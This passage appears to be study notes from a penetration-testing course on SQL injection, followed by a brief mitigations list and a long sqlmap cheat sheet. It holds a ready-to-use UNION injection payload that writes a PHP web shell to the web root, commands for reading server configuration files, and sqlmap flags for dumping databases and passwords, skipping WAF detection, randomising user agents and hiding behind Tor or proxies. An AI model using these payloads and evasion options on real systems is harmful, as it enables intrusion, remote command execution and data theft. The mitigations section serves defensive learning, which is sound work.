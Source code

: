 - One way to find it is to use load_file to read the server configuration, like Apache's configuration found at `/etc/apache2/apache2.conf`, Nginx's configuration at `/etc/nginx/nginx.conf`, or IIS configuration at `%WinDir%\System32\Inetsrv\Config\ApplicationHost.config`, or we can search online for other possible configuration locations.
- Writing a php web shell: `cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- `

Mitigations:
- Input Sanitization: Use libraries that contain functions to escape special characters: `mysqli_real_escape_string()` and `pg_escape_string()`
- Input Validation: Use regex against the user input
- User privileges: Create users with the lowest amount of privileges for the app
- WAF: Use web application firewall to block common web attacks
- Parameterized Queries: Use placeholders and functions to add the input into the query, `mysqli_stmt_bind_param()`

SQLmap:
- To get more info about the errors we can pass the flag: `--parse-errors`
- To store the whole traffic content: `-t traffic.txt`
- Get more verbose: `-v 6`
- Without user interaction: `--batch`
- using a proxy: `--proxy`
- We can specify a suffix and prefix for the vector(payload): `--prefix="%'))" --suffix="-- -"`
- We can specify risk in order to decrease the potential damage to the server, the risk go from 1 to 3: `--risk`
- The same way, we can specify the level that translates into boundaries used, the level go from 1 to 5: `--level`
- By default the level is 1 and risk is 1, which comprises 72 payloads. If we use level 5 and risk 3 we can get 7,865 payloads.
- We can use `--code` to add a status code when a payload is successful.
- The same way with `--titles` for HTTP title, `--string=` for strings.
- If we know how many columns a certain table has we can specify when trying a UNION injection `--union-cols`
- Gather info about the db:
    - banner: `--banner`
    - current user: `--current-user`
    - hostname: `--hostname`
    - current db:: `--current-db`
    - get tables of a db:  ` --tables -D testdb`
    - dump info to a format of our choice: `--dump-format`
    - choose what columns to extract: `-C name,surname`
    - choose all columns: `--columns`
    - get a couple of rows: `--start=2 --stop=3`
    - search in the table: `--where="name LIKE 'f%'"`
    - get all info without default databases: `--dump-all --exclude-sysdbs`
    - retrieve the structure of all of the tables: `--schema`
    - search tables with the word `user`: `--search -T user`
    - to dump passwords: `--passwords`
- Bypassing Web application protections:
    - if the form uses some sort of csrf token we can add: `--csrf-token`
    - if we want to randomize some value each request we sent: `sqlmap -u "http://www.example.com/?id=1&rp=29125" --randomize=rp --batch -v 5`
    - if we want to calculate the parameter md5 before sending we can use python with flag eval: `sqlmap -u "http://www.example.com/?id=1&h=c4ca4238a0b923820dcc509a6f75849b" --eval="import hashlib; h=hashlib.md5(id).hexdigest()" --batch -v 5`
    - if we want to hide our IP we can use proxies: `proxy="socks4://177.39.187.70:33283`
    - or a list of proxies: `--proxy-file`
    - besides that we can use the tor network to anonimize our requests(the tor should be installed and running on port 9050 or 9150): `-tor`
    - to check if we are successfully connected to tor we can use: `--check-tor`
    - By default SQLmap detects WAF but we can skip by adding: `--skip-waf`
    - Some protection mechanisms block SQLmap because of the User Agent, but we can randomize with: `--random-agent`